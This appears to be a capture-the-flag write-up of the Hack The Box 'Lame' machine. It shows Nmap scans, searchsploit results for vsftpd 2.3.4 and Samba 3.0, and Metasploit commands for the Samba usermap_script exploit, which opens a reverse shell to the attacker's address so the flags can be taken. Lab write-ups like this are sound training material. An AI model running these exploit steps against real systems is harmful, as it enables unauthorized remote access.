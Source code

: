 ```yaml
---
description: Hackthebox.eu Lame Retired Machine
---
```


# Lame

## Recon

Starting with a Nmap scan to find open ports.

```csharp
root@kalisecurity# nmap -sT -p- --min-rate 10000 -oA scans/alltcp 10.10.10.3
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-28 07:16 EST
Nmap scan report for 10.10.10.3
Host is up (0.021s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
root@kali# nmap -sU -p- --min-rate 10000 -oA scans/alludp 10.10.10.3
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-28 07:17 EST
Nmap scan report for 10.10.10.3
Host is up (0.019s latency).
Not shown: 65531 open|filtered ports
PORT     STATE  SERVICE
22/udp   closed ssh
139/udp  closed netbios-ssn
445/udp  closed microsoft-ds
3632/udp closed distcc

Nmap done: 1 IP address (1 host up) scanned in 13.51 seconds

root@kali# nmap -p 21,22,139,445,3632 -sV -sC -oA scans/tcpscripts 10.10.10.3
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-28 07:19 EST
Nmap scan report for 10.10.10.3
Host is up (0.023s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.24
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 4h39m11s, deviation: 0s, median: 4h39m11s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name:
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-02-28T06:59:11-05:00
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.02 seconds
```

### FTP - TCP 21

Because FTP allows anomous logins i though i'd give it a go but the FTP was empty.

## Exploits

### VSFTPD 2.3.4

vsftpd 2.3.4 is a backdoored FTP server. i run this though Searchspolit which shows a backdoor for backdoor command execution.

```csharp
root@kalisecurity# searchsploit vsftpd 2.3.4
----------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                   |  Path
                                                                 | (/usr/share/exploitdb/)
----------------------------------------------------------------- ----------------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)           | exploits/unix/remote/17491.rb
----------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

### Samba 3.0

i also checked Samba 3.0 and found a phew results.

```csharp
root@kali# searchsploit samba 3.0
------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                       |  Path
                                                                                     | (/usr/share/exploitdb/)
------------------------------------------------------------------------------------- ----------------------------------------
Samba 3.0.10 (OSX) - 'lsa_io_trans_names' Heap Overflow (Metasploit)                 | exploits/osx/remote/16875.rb
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                               | exploits/multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)     | exploits/unix/remote/16320.rb
Samba 3.0.21 < 3.0.24 - LSA trans names Heap Overflow (Metasploit)                   | exploits/linux/remote/9950.rb
Samba 3.0.24 (Linux) - 'lsa_io_trans_names' Heap Overflow (Metasploit)               | exploits/linux/remote/16859.rb
Samba 3.0.24 (Solaris) - 'lsa_io_trans_names' Heap Overflow (Metasploit)             | exploits/solaris/remote/16329.rb
Samba 3.0.27a - 'send_mailslot()' Remote Buffer Overflow                             | exploits/linux/dos/4732.c
Samba 3.0.29 (Client) - 'receive_smb_raw()' Buffer Overflow (PoC)                    | exploits/multiple/dos/5712.pl
Samba 3.0.4 - SWAT Authorisation Buffer Overflow                                     | exploits/linux/remote/364.pl
Samba < 3.0.20 - Remote Heap Overflow                                                | exploits/linux/remote/7701.txt
------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

The one that made me think was the `Command Execution` so i'd though i would give it a go using Metaspolit, using this.

```csharp
msfconsole
```

That will open Metapsloit in your console and you can do,

```csharp
msf5 > use exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
rhosts => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > set LHOST tun0
lhost => 10.10.14.24 (Will Be Your IP)
msf5 exploit(multi/samba/usermap_script) > set LPORT 443
lport => 443
```

now we can check the options to make sure we set it up right, we can use `options` which will show all the options we put in the exploit it should show,

```csharp
msf5 exploit(multi/samba/usermap_script) > options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target address range or CIDR identifier
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.24      yes       The listen address (an interface may be specified)
   LPORT  443              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

now run `exploit` and it will start the exploit.

```csharp
[*] Command shell session 1 opened (10.10.14.24:443 -> 10.10.10.3:37959) at 2019-02-28 08:52:31 -0500
```

Now were in and can get the Flags, to find them you can do `ls` to find out whats in the current dir on Linux, the root or user isnt in there so lets try in the home dir we can do `cd home` in there we find the first flag then we can try root to get the root.txt and were done!

Congrats Guys!

